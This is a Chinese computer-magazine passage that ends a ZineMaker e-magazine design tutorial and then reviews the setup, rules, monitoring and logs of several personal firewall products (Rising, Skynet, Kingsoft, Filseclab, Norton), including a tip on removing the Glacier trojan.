在初期，要逐渐做精做强，以便在激烈的竞争中得以生存；工作重点可放在对电子杂志的广告宣传的建立上面，尽可能吸引越来越多的读者。在发展期，电子杂志的内容要不断更新和完善，通过与杂志和网站的结盟，打造强势品牌。在成熟期，要努力形成自己独特的风格，尤其要考虑更多的赢利方式。完成详细的策划后，就可以针对整个系列进行设计了。

### 二、电子杂志整体元素的设计

设计电子杂志之前，需要大量搜集资料和素材，通过主题内容来确定杂志的整体风格。因此，内容编辑也是整个设计过程中的重要环节。在占有大量资料的基础上，我们就可以考虑电子杂志的整体风格设计了。主要包括封面、封底、徽标LOGO、颜色选择等多方面的元素。

#### 1. 封面设计

设计封面时，可以选择CorelDraw、Photoshop等专业图像软件。以“北印码头”为例，该封面包含了多个设计元素。在设计的过程中，通过阴影等效果，制作出书脊的风格。在封面图片的对比上，通过虚实结合的表现手法，突出人物的动感风格。在封面的下方，包含了杂志的LOGO，专题名称。在颜色选择上，采用了绿色调，体现了杂志的“奥运”特色，如图12所示。



#### 2. 封底设计

在封底，继续采用了虚化的手法表现动压力度。为了突出奥运会中来自五湖四海的友谊，采用了一群牵手的相片。同时，在封底还加上了“北印码头”的杂志标志和杂志条码，进一步突出其杂志的味道。封底书籍的颜色与封面遥相呼应，突出其整体风格的一致性，如图13所示。

#### 3. 新建杂志模板文件

由于Zinemaker的功能十分强大，因此，我们选择其作为主要设计软件，另外配合CorelDraw、Photoshop、Flash等软件。在ZineMaker中，点击“文件”菜单下的“新建杂志”，选择一个杂志模板，本例选择“硬书脊风格杂志模板（简化）”，然后点击“确定”按钮，如图14所示。





小技巧：添加动画封面时，可以选择一个“非简化标准杂志”模板。加入后，选中模板元件处的“frontinfo.swf”，从“替换文件”后面的文件夹中调出需要的动画页面。建议添加的swf文件尺寸为750*550PX，帧频为30FPS，和整体参数保持一致。

#### 4. 替换封面和封底图片

在设计窗口中，左边是添加的页面模板，中间为模板的效果显示，右边为替换选区。在替换选区中，选择需要替换的图片名称，在元件查看中会显示原始图片。在“元件设置”区域，可点击“替换图片”任务栏尾部的文件夹，从电脑中调用已经准备好的图片文件。这时原来的图片就替换成需要的图片了。

### 三、目录的制作

目录是电子杂志中很重要的一个部分。在电子杂志制作中，一个清晰的目录结构能让读者检索、阅读杂志觉得方便、舒服。在确定了杂志的目录层次后，目录的显示位置和频率可以根据杂志的栏目设置和整体布局加以控制，这样，用户就能够方便地找到自己所需要的内容。

#### 1. 目录的安装

Zinemaker软件中没有提供目录模板，不过在它的网站http://www.zinemaker.com上，可以下载到许多新颖独特的模板、特效、图标及背景图片。下载完毕，双击“页面模板”tpf文件。出现一个模板查看器，显示模板的动画效果。点击左上角的“安装”按钮。当出现“选择目录”时，点击下拉箭头或新建文件夹。这样页面模板就添加完成了。特效的下载及安装与之类似，至于图标和背景，则需要将下载完毕文件存放到固定文件夹，如图15所示。



#### 2. 将模板插入到电子杂志文件中

点击“项目”工具栏下的“添加模板页面”，然后选择刚才安装的目录模板。选择模板页面后，可通过图片查看方式或动画查看方式，对模板进行查看。注意：每次可选择1个模板，每个模板可多次选择。然后替换相关图片和文字。根据内容的具体编排，“北印码头”杂志的目录如图16所示。



小技巧：制作目录中的图标时，可以使用Photoshop进行制作。目录的个数可以在模板中设置相关变量，如num_of_left, num_of_right; 设置图片链接时，可以通过numplace_of_picture变量进行，无目录的位置不要填写数字。在相邻之间，逗号不能少。

语言相似的格式，该语言有“可以利用Web浏览器进行数据确认”以及“易于生成数据”等优点，因此可以方便地进行数据交换和利用。在电子杂志设计的过程中，可以通过修改“XML”选项卡中的参数，对电子杂志进行灵活的配置。

### 四、内容模板和Flash文件

#### 1. 添加内容模板

方法与添加目录模板类似，为了增加杂志的视听效果，用户可以在平时多多收集相关模板，甚至还可以通过Flash制作模板。在添加模板页面中，包含了“图文模板”、“图片展示”、“视频模板”等类型。通过类似的方法，可以完成电子杂志主体内容的制作。因此，内容的作用在这个环节就显得很重要了，如图17所示。



小技巧：插入视频之前，首先点击“文件”菜单下的“导入视频”选项，选择要添加的视频文件，在弹出的“导入视频”选框中修改“导入设置”，完成后点击“导入”。在新建视频模板时，点击替换文件后的文件夹。在安装目录下的Video文件夹里，选择以前导入的视频文件并打开即可。

#### 2. 添加Flash文件

有些场合，通过自己独立设计的Flash页面可以达到意想不到的效果，通过Flash的补充能够增加杂志的趣味。添加时，点击“项目”菜单下的“添加Flash页面”，选择并打开自己制成杂志页面的Flash文件即可。现在，不少制作技术精湛的用户开始直接使用Flash MX等软件制作电子杂志。

#### 3. 整体页面属性的设置

在模板主界面的“页面设置”属性中，包含了丰富的页面设置变量。例如，可选择true或者false来决定是否进行页面预加载、页面遮罩、音乐预加载、页码等；打开“页面设置”的“背景音乐”浏览框，可以选择所需要音乐文件；点击“页面设置”的“页面特效”下拉框，选择所需要的页面特效。点击“页面设置”的“背景颜色”下拉框，可选择所需的颜色，如图18所示。

| 设置项 | 值 |
|--------|------|
| 页面设置 | C:\Program Files\Sunbi... |
| 页面预加载 | false |
| 页面遮罩 | true |
| 背景音乐 | [同杂志模板] |
| 音乐预加载 | false |
| 页面特效 | [无] |
| 显示进度条 | false |
| 显示页码 | true |
| 背景颜色 | #000000 |

小技巧：关于制作杂志的所有设置项都可以在XML中找到并修改。XML是“extensible Markup Language”的缩写，意为可扩展的标记语言。它是一套定义语义标记的规则，这些标记将文档分成许多部件并对这些部件加以标识。“XML”具有与描述Web页面的“HTML”语言相似的格式，该语言有“可以利用Web浏览器进行数据确认”以及“易于生成数据”等优点，因此可以方便地进行数据交换和利用。在电子杂志设计的过程中，可以通过修改“XML”选项卡中的参数，对电子杂志进行灵活的配置。

### 五、后期合成及发布

#### 1. 参数设置

单击“生成”菜单下的“杂志设置”，在弹出的窗口更改有关的信息。这里包括了“杂志信息”、“版权信息”、“启动画面”等参数。

#### 2. 生成杂志

单击“生成”菜单下的“生成杂志”，一份完全属于我们自己的电子杂志已经自动在软件安装目录下的release文件夹生成了。这时，会跳出生成电子杂志的提示框。现在，就可以欣赏独具个性的电子杂志了。以“北印码头”为例，生成后的“序”界面如图19所示。



#### 3. 发布杂志

网络时代，我们肯定希望有更多的朋友能够欣赏自己的作品。单击“生成”菜单下的“发布我的杂志”，直接按“下一步”，确认发布和选择服务器之后，ZineMaker就会自动把完成的电子杂志上传到服务器了。有关北印码头的相关制作，请浏览我的博客：http://blog.sina.com.cn/itcom。

通过整个杂志的策划，我们看到，电子杂志制作过程也需要诸多技术的整合，不少优秀的作品开始使用类似好莱坞大片一样的影音效果，这对促进电子杂志产品质量的改进、提高电子杂志行业在传媒领域的整体地位，还是有一定积极意义的。

如今，作为全新的网络传播方式，电子杂志的发展空间相当广阔。根据艾瑞市场统计，到2010年中国电子杂志市场规模可以达到12.5亿元！在此基础上，我们也欣喜地看到，网络杂志也正使用户对网络广告逐渐产生好感，并使杂志开始具有更强的广告价值。因此，我们有理由去研究这些最新技术的发展，甚至考虑将其作为自己的职业目标。对电子杂志发展的美好前景，我们拭目以待！

# 流行个人防火墙软件完全教程

文 / 彭文波

随着网络技术研究的不断发展，个人防火墙软件已经逐渐成为用户必不可少的防护软件之一。本质上看，个人版防火墙就是安装在用户电脑系统里的一段“代码墙”，它能将用户的电脑和Internet网络分隔开，使个人电脑免受内部网络和外部网络的威胁。一旦发现对电脑产生危险的通信，软件就会检查到达防火墙两端的所有数据包，按照规则决定该拦截这个包还是将其放行，紧急情况下，能够立即中断通信来保护电脑。

简而言之，个人防火墙的作用就是在不妨碍正常上网浏览的同时，能够阻止其他用户对计算机的非法访问。一个好的个人版防火墙必须是低的系统资源消耗，高的处理效率，具有简单易懂的设置界面，具有灵活而有效的规则设定。目前，市场上的个人防火墙软件种类繁多，而且各自使用场合也不尽相同。下面，我们精选了十多款国内外优秀的最新版本个人防火墙软件，并结合安全实践对其功能进行了详细点评，使读者朋友对它们有一个比较全面而深刻的了解。

## 国内篇

近几年来，国内网络安全形势日益严峻，一批优秀的防火墙品牌脱颖而出，而且在实用性能上并不比国外知名品牌逊色。下面，对近几年来发展速度比较快的国内个人防火墙软件进行讲解。

## 一、瑞星个人防火墙2007年版

- 推荐指数：★★★★☆
- 软件下载地址：http://www.rising.com.cn

瑞星个人防火墙 2007 版是瑞星杀毒软件 2007 版的组合套装之一，通过瑞星个人防火墙以前版本的多项改进，软件功能有了很大提高。通过过滤不安全的服务，它能够极大地提高网络安全，同时减小主机被攻击的风险。软件最大的亮点是内嵌了“木马墙”技术，通过使用反挂钩、反消息拦截以及反进程注入等方式，在木马窃取密码时就将其斩杀，从根本上解决帐号被盗、隐私泄漏问题。

#### 1. 软件界面介绍

瑞星个人防火墙 2007 的主界面给人以耳目一新的感觉，并能自动更换界面风格。启动瑞星防火墙后，软件会自动检测网络环境，并提示把局域网地址添加到可信区。菜单栏包括操作、设置、帮助三项，是用于防火墙各项操作的窗口。在导航工具条中，有工作状态、系统状态、启动选项、密码保护、漏洞扫描和安全资讯等六个标签，使系统操作更直观。软件右侧是“停止保护”、“断开网络”、“智能升级”、“查看日志”等按钮。右下方则有安全级别的指示，如图 1 所示。



#### 2. 状态监控功能

俗话说：“日防夜防，家贼难防”。现在，本机或在同一网络内的恶意程序很容易与其他恶意程序里应外合，窃取机密资料，最典型的就是反弹木马。瑞星个人防火墙在这方面做得很不错，无论是从外部接收数据，还是向外部发送数据，瑞星个人防火墙都将首先将其截获并进行分析，然后弹出窗口询问用户是否允许此应用程序访问网络，并能记录下该应用程序。

软件提供了丰富的状态监控功能，主要有工作状态和系统状态。其中，工作状态包括系统状态、受攻击信息等；系统状态包括网络活动、活动进程，可以查看管理进程，还可查看进程的模块。通过系统状态显示，可以清楚知道是哪个程序建立的监听服务并在发送数据。

（1）网络活动

在“网络活动”一栏中，显示了系统所有 TCP/UDP 连接的信息，包括所有 TCP/UDP 监听。通过系统状态显示，可以清楚知道哪个程序建立的监听服务并在发送数据。网络活动按照应用程序名称排列，下面分成 TCP 和 UDP，分别列出了 TCP 和 UDP 监听的端口和建立的连接。在显示信息上，右键可以选择扫描木马病毒、浏览程序所在目录、查看程序属性，如图2所示。

##### (2) 进程信息

点击页面下方“进程信息”选项卡，切换到活动进程列表，显示每个进程的映像名称、进程ID、全路径、命令行信息、用户可以查看、管理活动进程。在显示信息上右键可以选择挂起进程、结束进程、扫描木马病毒、浏览目录、查看属性、加亮微软签名项、加亮瑞星签名项、查看模块。选择挂起进程时，进程变成灰色表示无效，右键可恢复进程。

##### (3) 启动选项管理

用于显示系统启动和登陆时自动运行的程序信息。瑞星个人防火墙2007对启动项的管理十分全面快捷，这些程序可能是系统启动菜单中的程序、注册表中的Run、RunOnce和其它的一些键值。在列表中点击右键，弹出的菜单中已勾选的是默认的启动项。可以点选需要显示的启动项，也可以在右键菜单选择隐藏微软已签名的项、隐藏瑞星已签名的项，以便快速查看可疑进程中的模块。选择“跳转到”可以定位到程序对应的位置，然后进行手工更改。对于可疑的或不想运行的项，可以右键选择删除选中的项，也可以在列表中对应项前取消勾选，如图3所示。



##### (4) 网络访问管理

瑞星个人防火墙提供了网络实时过滤监控功能，可以防御木马的恶意攻击，防御ICMP、IGMP洪水攻击、IGMP NUKE攻击及IGMP碎片攻击；在受到攻击时，还可以在主界面中按下“断开网络”按钮，将计算机完全与网络断开，就好像拔掉了网线或是关掉了Modem一样。同时，还可以发出报警声音并且闪烁图标提示。此外，瑞星个人防火墙还支持任何形式的网络接入方式，如ISDN接入、普通MODEM拨号上网、代理等，对网络通讯的速度影响极低，不会干扰其他运行中的程序。

（5）丰富的日志管理功能

在主界面上单击“查看日志”操作按钮，即可看到相关日志信息。主要包括：防火墙系统事件、防火墙IP事件、防火墙TCP事件、防火墙UDP事件、密码保护事件、用户编辑IP规则事件、用户编辑访问规则事件、用户配置防火墙事件、用户编辑密码保护规则事件、内存木马扫描事件等。

#### 3. 系统设置与规则定制

通过强大的设置选项，可以快速设置及管理个人防火墙。单击“设置”菜单下的“详细设置”按钮，即可进入“详细设置”界面。这里包含了防火墙的所有规则控制项，能够灵活配置防火墙的过滤规则及网站访问规则。在“高级”选项中，包括安全设置、窗口停留时间及漏洞扫描提醒时间三部分。在“规则设置”中，通过设置黑白名单、端口开放、可信区等，以设置本机与外界网络之间的联系，如图4所示。



规则设置主要配置防火墙的过滤规则。单击“详细设置”菜单下的“规则设置”，随即弹出规则设置界面，针对不同的用途，可以进行灵活设置，并能导入导出规则。具体包括如下设置：

##### (1) 黑名单

此处为禁止与本机通讯的计算机列表，例如：攻击本机的计算机可加入此区域。

> 小技巧：添加和编辑黑名单的方法
> 单击“增加规则”按钮，或在右键菜单中选择“增加规则”，打开“增加黑名单”窗口，输入名称、地址类型、地址 / 地址范围，单击“保存”即可。另外，“生效时间”一项不可直接输入，系统受攻击时对方信息被加入黑名单时会自动填写。需要修改规则时，选中待修改的规则，规则加亮显示，在右键菜单中选择“编辑规则”，打开“编辑黑名单”窗口，即可修改对应项目。

##### (2) 白名单

此处为完全信任的计算机列表，列表中的计算机对本机有完全访问权限。例如：VPN服务器可加入此区域。

小技巧：添加和编辑白名单的方法

单击“增加规则”按钮，或在右键菜单中选择“增加规则”，打开“增加白名单”窗口，输入名称、地址类型、地址/地址范围，单击“保存”即可。需要修改规则时，选中待修改的规则，规则加亮显示，在右键菜单中选择“编辑规则”，打开“编辑白名单”窗口，即可修改对应项目。

##### (3) 端口开关

在此处可以允许或禁止端口中的通讯，可简单开关本机与远程的端口。

##### (4) 可信区

通过可信区的设置，可以把局域网和互联网区分对待，进行可信区列表和可信区服务的设置。在可信区指定局域网计算机的IP后，默认对方计算机不在此区域。如果计算机是直接连到互联网的（例如拨号上网），就不要把IP加入可信区。

小技巧：添加可信区规则

单击“添加”按钮或在右键菜单中选择“增加规则”，打开“可信区设置”窗口。输入名称、本地地址、对方地址，单击“确定”即可。

### (5) IP规则

此处设置IP层的过滤规则。在列表中显示规则名称、状态、协议、对方端口、本地端口、是否报警等信息。设置时需要注意以下事项：规则越多性能越低；不需要增加与应用相关的规则，系统在应用需要时打开端口；也不需要增加防范性规则，系统已经内置并且自动升级。规则一般按过滤顺序排序，打勾的项表示生效。

小技巧：设置IP规则的方法

增加规则时，单击“增加规则”按钮或在右键菜单中选择“增加规则”，打开“添加IP规则向导”窗口输入规则名称，并选择规则匹配成功后执行的动作。单击左侧菜单中的“地址”，填写本地地址与对方地址。若指定本地地址，可单击“浏览”按钮选择一个本地地址。单击左侧菜单中的“协议”或单击“下一步”按钮，进行协议设置。单击左侧菜单中的“报警方式”，选择匹配成功后的报警方式。设置后如图5所示。



##### (6) 访问规则

本机中访问网络的程序的过滤规则，与IP规则类似。列表中显示当前已定义了访问规则的应用程序，具体列出程序名、状态、是否允许收发邮件、完整路径。

小技巧：设置访问规则的方法

首先，单击“增加规则”按钮或在右键菜单中选择“增加规则”，打开“添加访问规则向导”窗口。然后，单击“浏览”按钮定位应用程序，界面上自动显示名称、公司、版本信息。选择所属类别、常规模式下访问规则、是否允许发送邮件。选择是否启用防篡改保护，选中表示在应用程序访问网络时防火墙将检查其是否已被修改过。最后，单击“下一步”按钮，进入高级设置界面，设置在各种模式下此应用程序访问网络的规则。另外，如果需要修改规则时，选中待修改的规则，单击“编辑规则”按钮或在右键菜单中选择“编辑规则”，打开编辑访问规则窗口，直接修改对应项目即可，如图6所示。



##### (7) 网站访问规则

通过此功能，可以自动屏蔽常见的不适合青少年浏览的色情、反动网站，创建一个绿色健康的上网环境。

#### 4. 安装包制作、密码保护和系统漏洞扫描功能

瑞星提供的辅助工具主要是漏洞扫描功能和安装包生成，特别是安装包生成功能可以让用户基于当前的程序状态及更新状态生成一个安装程序包，从而方便安装部署工作。在密码保护方面，瑞星防火墙2007内嵌了“木马墙”新技术，使密码保护功能得到加强。通过“密码保护”中的“增加规则”选项，添加程序名称、版本，从而彻底保护系统安全。

作为防火墙的核心部分之一，漏洞扫描是评估防火墙软件综合品质的硬性技术指标之一。通过漏洞扫描，可以发现系统中存在的漏洞与未修复的安全设置漏洞，瑞星防火墙提供按等级统计和分类，可以对系统存在的漏洞与不安全设置进行检查并修复，以消除系统的不安全隐患。另外，无论是CPU还是内存占用，瑞星个人防火墙2007的系统资源占用都很小。

综合点评：瑞星个人防火墙2007界面简洁，尽管有大量的功能但大部分功能的使用方法都一目了然，主要的功能都可以在主界面上进行使用。而且，软件运行速度比较快，占用内存小，设置方法非常灵活，是一款非常出色的防火墙软件。另外，使用该产品时，用户应尽量定义比较严格的规则，以防止受到网络攻击。

## 二、天网防火墙个人版V3.0.0.1007

- 推荐指数：★★★★★
- 软件下载地址：http://www.sky.net.cn

天网防火墙个人版是由天网安全实验室研发制作的网络安全工具。使用该软件，可以按照用户设定的安全规则，提供强大的访问控制、信息过滤等功能，抵挡网络入侵和攻击，防止信息泄露。天网防火墙把网络分为本地网和互联网，可针对来自不同网络的信息，来设置不同的安全方案，适合于任何方式上网的用户。值得一提的是，天网专门设置了一个称为“资讯通”的系统功能，默认在主界面下方显示，该功能组件显示精心提炼的信息安全新闻内容，并能在连入互联网的情况下实时更新，为用户提供第一手的安全资讯。

#### 1. 软件界面及安装

天网防火墙个人版V3.0.0.1007在保留以往版本所有功能的基础上，新增了换肤、进程保护和入侵检测技术。另外，这次天网还取消了试用版的注册机制，用户无需在论坛获取注册码，免费下载安装后即可直接使用，无试用时间限制。软件界面如图7所示。



软件安装过程很简单，不过在安装过程中需要留意插件。设置安全级别时，默认为“中”，在该级别下，所有应用程序初次访问网络时都将被询问，已经被认可的程序则按照设置的相应规则运作。软件安装过程中，会提示“是否安装雅虎网络实名”。另外，在“系统设置”下的“基本设置”选项卡中，还可以自定义软件皮肤，天网防火墙提供了天网2006、深色优雅和经典风格3种皮肤供选择。

#### 2. 实时监控和智能入侵检测

天网防火墙可以监控系统中的软件访问网络，同时也可能监控来自外部的安全威胁，过滤掉所有未授权的连接，时刻保护系统安全。运行网络软件时，天网防火墙个人版可以随时保护用户系统的信息安全，对所有来自外部机器的访问请求进行过滤，发现非授权的访问请求后立即拒绝。

小技巧：当我们发现7626端口（木马“冰河”的默认端口）有不正常的现象时，找到这个应用程序“KERNEL32.EXE”所打开的监听端口，使用“结束”进程按钮，禁止该进程。然后，清除注册表里有关“KERNEL32.EXE”的键，把所显示路径的文件C:\windows\System32\KERNEL32.EXE删除掉，就可以完全杀掉冰河了。

入侵检测是一个比较新的功能，针对密集的攻击，天网防火墙能自动判断并将攻击源加入列表，默认其为攻击源。具体操作是：点击主界面上的“系统设置”按钮，在打开的窗口中，点击“入侵检测设置”选项，这里默认勾选了“启动入侵检测功能”，这里你还可以选择静默时间，或者将该来源从黑名单中移除。一旦攻击源被加入静默列表，所有来自这里的攻击一律屏蔽，因而无需再记录繁杂日志及重复发出烦人的报警，不会扰乱你的工作，也节省了系统资源，如图8所示。



#### 3. 自定义安全级别和安全规则

天网防火墙个人版提供了丰富的自定义设置功能。下面，我们从两个方面进行讲解。

##### (1) 自定义安全级别

天网个人版防火墙的预设安全级别分为低、中、高、扩四个等级，默认的安全等级为中级。

小技巧：用户可以根据自己的需要调整自己的安全级别，方便实用。

①定义为“低”级别时，所有应用程序初次访问网络时都将询问，已经被认可的程序则按照设置的相应规则运作。适用于在局域网中提供服务的用户。

②定义为“中”级别时，所有应用程序初次访问网络时都将询问，已经被认可的程序则按照设置的相应规则运作。适用于普通个人上网用户。

③定义“高”级别时，所有应用程序初次访问网络时都将询问，已经被认可的程序则按照设置的相应规则运作。除了已经被认可的程序打开的端口，系统会屏蔽掉向外部开放的所有端口。这是最严密的安全级别。

此外，天网防火墙个人版还推出了独创的扩展安全级别，适用于需要频繁试用各种新的网络软件和服务、又需要对木马程序进行足够限制的用户。试用版用户暂时没有此功能。

##### (2) 自定义安全规则

天网防火墙个人版设置了一系列安全规则，允许特定主机的相应服务，或者拒绝其它主机的访问要求。用户还可以根据实际情况添加、删除、修改安全规则，通过对“IP规则”和“应用程序访问规则”这两套规则的有机组合，为自己打造最贴身的安全网络应用环境。比如，某个用户安装了Serv-U软件并打算开启FTP服务，那么他可以在防火墙的IP规则上添加一条开放FTP服务的规则，以适合他目前的网络应用情况。

首先，是IP规则的设置。IP规则是针对整个系统的网络层数据包监控而设置的。利用自定义IP规则，用户可针对个人不同的网络状态，设置自己的IP安全规则，使防御手段更周到、更实用。用户可以点击“IP规则管理”键或者在“安全级别”中点击“自定义”安全级别进入IP规则设置界面，如图9所示。



**小技巧：**在常见的IP规则中，包括：防御ICMP攻击、防御IGMP攻击、TCP数据包监视、禁止互联网上的机器使用我的共享资源、禁止所有人连接低端端口、允许已经授权程序打开的端口、禁止所有人连接、UDP数据包监视、允许DNS（域名解析）等。通过个性化设置，用户总可以找到属于自己的一款规则。此外，用户还可以灵活添加或修改规则。

建立规则时，需要注意以下几点：

+   ① 防火墙的规则检查顺序与列表顺序是一致的；
    ② 当用户在局域网中时，只想对局域网开放某些端口或协议（但对互联网关闭）时，可对局域网的规则采用允许“局域网网络地址”的某端口、协议的数据包“通行”的规则，然后用“任何地址”的某端口、协议的规则“拦截”；
    ③ 不要滥用“记录”功能，一个定义不好的规则加上记录功能，会产生大量没有任何意义的日志，并耗费大量的内存；
    ④ 试用版用户最多可以使用25条IP规则。

其次，是应用程序规则的设置。软件可以对应用程序数据包进行底层分析，实施拦截功能。它通过控制应用程序发送和接收数据包的类型、通讯端口，决定拦截还是通过，这是它的一个特色功能。在天网防火墙个人版运行的情况下，任何应用程序只要有通讯传输数据包发送和接收动作，都会被天网防火墙先截获分析，并弹出窗口，询问“通过”还是“禁止”。在应用程序规则列表中，列出了所有应用程序的名称、版本、路径等信息。

**小技巧：**在列表的右边为该规则访问权限选项，勾选表示一直允许该应用程序访问网络，问号选表示该应用程序每次访问网络的时候会出现询问是否让该应用程序访问网络对话框，叉选表示一直禁止该应用程序访问网络。用户可以根据自己的需要设定应用程序访问网络的权限。

#### 4. 进程保护和密码保护功能

首先，进程保护可以使天网防火墙的进程享受超越系统级的安全待遇，保护防火墙的进程不被恶意关闭。其次，作为防御攻击的安全类软件，最担心的就是配置被篡改或者防火墙被病毒黑客关闭，使系统失去保护。有了密码保护，凡是查看、修改、关闭防火墙，均需要提供密码，这样就防止了病毒或黑客恶意关闭防火墙以制造安全漏洞。点击“系统设置”下的“管理权限设置”，点击“设置密码”，可以设置或者更改密码。

#### 5. 报警和日志记录

天网防火墙个人版设置了声音报警系统，当出现异常情况的时候，系统会发出预警信号，从而让用户作好防御措施。此外，天网防火墙个人版对日志进行了详细分类，包括：系统日志、内网日志、外网日志、全部日志。用户可以通过点击日志旁边的下拉菜单选择您需要查看的信息。除此之外，天网的日志还可以通过导出，以便对安全事件做分析。通过这些详尽的日志报告，用户可以及时知道自己的计算机在网络应用上的状况。

打开天网个人版的数据包监视规则，就可以看到详细的日志记录。例如：

```
[11:11:11]192.168.0.105 试图连接本机的NetBios-SSN[139]端口，TCP标志：S，该操作被拒绝。
```

139端口是NetBIOS协议所使用的端口，它的开放意味着硬盘可能会在网络中共享，网上黑客也可通过NetBIOS知道你的电脑中的一切。出现这种日志还有一种可能是，对方机器可能中了尼姆达病毒，这种病毒可以通过E-mail、共享网络资源、IIS服务器传播，同时它也是一个感染本地文件的新型病毒，它们会搜寻局域网内一切可用的共享资源，并会将病毒复制到取得完全控制权限的共享文件夹，以达到病毒传播之目的。我们可以安装防火墙保护139端口或者在TCP/IP协议属性里面关闭NetBIOS协议。

综合点评：总的来说，作为一款个人级别的安全防护软件，天网防火墙很容易上手，而且功能非常实用。入侵检测、进程保护等功能的加强，都进一步提高了电脑的安全性。从技术角度来看，天网与很多国际一流品牌相比也毫不逊色，无论是从性能还是防御能力上都已经具有了相当高的水准。在用户交互设计等方面进一步加强后，可以获得更多用户的认可。

### 三、其他国内个人防火墙

### 1. 金山网镖个人防火墙2007

软件下载地址：http://db.kingsoft.com/product/

“金山网镖”个人防火墙是金山公司的产品，主要通过基于安全规则的高、中、低等安全级别设定，达到保护用户安全的目的。软件的主要功能点有IP规则编辑、网络状态监控、系统安全漏洞扫描。由于是金山毒霸套装的一部分，所以该套装中的漏洞扫描和木马程序防护等功能都# 超级软件教程

随该防火墙组件提供，而文件粉碎和IE修复等功能也颇为实用。

##### （1）智能防黑、漏洞扫描和网络状态监控

金山网镖不但能拦截木马对端口的绑定与对外部网络的访问，同时还能将网络神偷、广外女生、冰河等木马程序清除掉。网络状态监控能够将系统中访问网络的所有程序列出，以树的形式将程序路径、使用协议、访问的IP地址、监听的本地端口、远端端口、网络流量等参数显示出来，让用户对系统的网络状态一览无余，而且可以在发现恶意攻击时，随时断开网络连接。此外，金山的漏洞扫描功能，不但可以检测出微软操作系统和应用程序中存在的安全问题，还能发现系统设置上的缺陷，而且该模块可以管理安全漏洞补丁的下载和存放，提供更加一体化的安全管理特性。

##### （2）安全级别设定

提供了高、中、低、自定义四个安全级别供用户选择。对于局域网环境中的用户，推荐使用中安全级，这样既不影响正常网络应用操作，又能防范常见的黑客攻击方式如洪水攻击、IGMP碎片攻击。对于拨号上网用户，建议使用高安全级，可以将提供服务的网络端口关闭，这样也就避免了更多更高级的黑客攻击方式的攻击。如果安装了IIS等服务程序，则需要将级别调整为低。如果这些设置都不适合，还可以用自定义级别来定制规则。

## （3）IP规则编辑

金山网镖提供了IP规则编辑器，使用户可以完全根据自身的不同需求对网络端口、协议进行制定规则。此外，IP规则编辑器还能导入IP规则库，让用户网络的处于更安全的位置。

此外，软件还可以修复系统漏洞。比如，当软件扫描到Windows Shell缓冲区溢出漏洞与Internet Explorer积累的漏洞时，会有简单说明。扫描完毕，按“下一步”，会得到建议下载相关补丁及链接地址，同时会生成漏洞扫描报告。

总的来看，作为金山套装产品的一部分，金山网镖在具有足够防御质量的基础上为用户提供了一个快捷易用的产品。相比于有更多功能需要和定制要求的专业用户来说，金山简约的风格更适合于那些初中级别的普通用户群体。

# 2. 费尔个人防火墙专业版V3.0

软件下载地址：http://www.filseclab.com

费尔个人防火墙是一款功能强大的个人防火墙软件，它不仅是免费的，而且，它的整套源程序也是完全开放的。

##### （1）网络流量和监控功能

在监控方面，它引入了别具特色的“流量示波器”，使得网络流量一目了然，生动地展现网络状态；可以对代理上网进行优化、对网上邻居共享资源进行全面监控；全程交互式管控规则自动生成器，对任何情况的网络动作都可以进行动态、交互、自动生成监控规则，使用户能够方便的进行操作。

##### （2）多种安全模式

费尔的功能比较独特，它可以自动将Windows XP自带的防火墙功能关闭以避免互相冲突，另外费尔还可以自动放行经过微软签名的应用程序。费尔提供了7种安全模式并且用户有能力进行自定义操作，这7种安全模式分别针对本地计算机、连入互联网的计算机、服务器系统等不同的应用情况设定，其中标注了安静的模式不询问用户如何操作，而是根据系统内置的规则引擎自动决定如何处理。

##### （3）自定义规则

在规则设置方面，费尔的应用程序规则定义很好地结合了网络过滤规则的条件，并提供了丰富的应用协议供用户选择，可以生成非常细致准确的安全规则。不过，费尔处于普通模式下的时候规则建立提示太过频繁，尽管设置成安静模式用户无需进行处理方式的选择，但是提示信息会对用户造成干扰。

总的来看，费尔个人防火墙使用快速稳定，基本功能使用也很容易，美中不足的是各种进阶功能和细节的调整就显得比较麻烦。

## 国外篇

# 一、Norton Internet Security 2007个人防火墙

推荐指数：★★★★☆
下载：http://www.symantec.com/index.htm/

Norton Internet Security 2007（以下简称为NIS）系列产品中，包含了一款十分优秀的个人防火墙软件，它可以全面预防病毒、黑客和隐私泄露。在主窗口的顶部，单击“Norton Internet Security”选项卡。打开“设置”栏。在“其他选项”下，单击“Internet 安全和防火墙选项”。然后，选择出现的“配置”按钮，即可对个人防火墙进行设置。常规设置界面如图10所示。

| 系统 | 个人防火墙常规设置 | 防火墙防护 | 自动决定如何响应 | 防火墙处理 | 当程序试图访问 Internet 时如何操作 | 入侵防护 | 自动为常见程序决定 Internet 访问设置 | 程序控制 | 入侵防护 | LiveUpdate | 常规设置 | 打开程序自动防护 | 打开程序组件监控 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| | | 打开(推荐) | 关闭 | | 自动决定如何响应(推荐) | | | | | | | 打开程序自动防护 | 打开程序组件监控 |
| | | | | | 询问我如何操作 | | | | | | | | |



#### 1. 安全防护和监控功能

NIS个人防火墙提供的安全功能十分丰富。

##### （1）可以通过密码保护“Internet 安全和防火墙选项”

通过此选项，可以控制用户更改防护设置的权限。首先，在主窗口的顶部，单击“Norton Internet Security”选项卡。打开“设置”栏。在“其他选项”下，单击“Internet 安全和防火墙选项”。然后，在“Internet 安全和防火墙选项”窗口中的“保护 Norton Internet Security 工具”下，选中或取消选中“打开密码保护”。接下来在“密码”对话框的“密码”和“确认密码”文本框中，键入长度在 8 和 256 个字符之间的密码并单击“确定”。最后，在“Internet 安全和防火墙选项”窗口中，单击“确定”即可。

##### （2）日志查看功能

日志查看器显示所用 Symantec 产品的活动的历史记录，所收集的每种类型的信息（如安全风险、防护活动和错误消息）都包含在不同类别的日志中。利用日志查看器，可以通过在左列中选择日志类别查看每个日志中记录的详细信息。

首先，选择一个产品选项卡，打开“报告和统计信息”栏，单击“查看活动日志”。

然后，在“日志查看器”窗口的左窗格中，单击要查看的日志类别。可以通过单击问号图标显示选定的日志类别的说明。

最后，在右上窗格中，单击“防火墙活动”项，就可以查看该日志项的详细信息，如图 11 所示。



##### （3）实用的信息安全保护功能

软件能够识别种类繁多的应用程序，还提供了友好的安全警报界面和警报助手功能，帮助用户了解警报的含义、判断风险的大小，并提供相应的处理建议。而且，NIS 个人防火墙还提供隐私保护、个人信息保护、网站内容控制、站点广告过滤、邮件过滤、密码保护、病毒防治、父母控制等一系列的安全防护功能。灵活地应用这些功能，就可以构建出一个安全的电脑网络环境。

#### 2. 系统设置和规则设置

